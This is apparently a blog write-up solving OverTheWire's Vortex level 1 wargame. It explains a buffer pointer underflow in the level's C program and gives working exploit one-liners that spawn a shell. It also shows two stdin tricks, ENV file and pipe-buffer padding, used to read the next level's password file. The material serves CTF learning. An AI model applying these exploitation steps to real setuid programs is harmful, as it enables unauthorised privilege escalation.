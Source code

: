 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 1"
categories: [CTF, OverTheWire]
---
```


![Logo](/assets/images/vortex1.png)

## Context
The level can be found [here](http://overthewire.org/wargames/vortex/vortex1.html). After analyzing the C source code, we understand the flow and information needed to exploit:
* There's a 512 bytes buffer and a pointer _`ptr`_ that initially points in the middle of the buffer.
* For every **\** character read, the pointer is decremented.
* For every character read which is different than **\n** and **\** we have the possibility to set a byte in _`ptr`_: 
```c
    ptr++[0] = x;
````
* The _`e()`_ macro spawns an [interactive bash shell](http://www.gnu.org/software/bash/manual/bashref.html#Interactive-Shells) (**-i** parameter) and also replaces the image of the current process with _`/bin/sh`_, through _`execlp`_ function. Very important to remember:

<blockquote>
  <p>By default, file descriptors remain open across an execve()</p>
  <cite><a target="_blank" href="http://linux.die.net/man/2/execve">execve(2) - Linux man page</a>
</cite> </blockquote>

* The condition to trigger shell execution can be easily accomplished, given the third point.

Taken these into account, let's try to launch a shell and execute a command:
```bash
$ python -c 'print "\\"*257 + "\xca" + "A" + "\nwhoami"' | ./vortex1
```

The shell exits immediately, without executing the command. Now it's time to check what happens, how bash handles _`EOF`_.

### Method 1
We can actually find a very detailed explanation in this [blog post](http://byteninja.blogspot.ro/2011/09/overthewireorg-vortex-level1.html). The idea is that  when _`execlp`_ is executed, the image of the current process is replaced with  _`/bin/sh`_. But _`execlp`_ doesn't clear STDIN.  So the unparsed input it's still there. The shell is exiting immediately, because it receives an EOF. To overcome this, something in the bash manual comes to help: 

<blockquote>
  <p>When invoked as an interactive shell with the name sh, bash looks for  the variable  ENV,  expands  its value if it is defined, and uses the expanded value as the name of a file to read and execute.</p>
  <cite><a target="_blank" href="https://tiswww.case.edu/php/chet/bash/bashref.html">Bash Reference Manual</a>
</cite> </blockquote>



So we create a new file containing our commands, set the _`ENV`_ variable before and get the password:
```bash
$ vi /tmp/cmd2
cat /etc/vortex_pass/vortex2
 
$ python -c 'print "\\"*257 + "\xca" + "A"' | env ENV=/tmp/cmd2 /vortex/vortex1
```

### Method 2

Some solutions report that a long string before the command causes the command to be actually executed, without an apparent explanation, like this for example:
```bash
$ python -c 'print  "\\"*0x101+"\xcaA\n"+"A"*4000+"\nwhoami\ncat /etc/vortex_pass/vortex2"' |/vortex/vortex1
$ sh: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: not found
$ vortex2
******
```


To understand this, the following [article](http://www.pixelbeat.org/programming/stdio_buffering/) explains the **_buffering applied to standard streams_**, with an example with two processes forked  by bash with a pipe between them, very similar with our case:
```bash
$ command1 | command2
```
The idea is that the kernel uses 4096 bytes circular buffers (for stdin, stdout, and pipe). Being circular, the 4000 characters together with the existent content fill the buffer, and the next part of input does not contain an EOF and commands are executed. Actually, instead of the 4000 "A"s, we just need 4096-257-2-1=3836 extra characters:
```bash
$ python -c 'print  "\\"*0x101+"\xcaA\n"+"A"*3836+"\nwhoami\ncat /etc/vortex_pass/vortex2"' |/vortex/vortex1
$ $ vortex2
$ ******
```
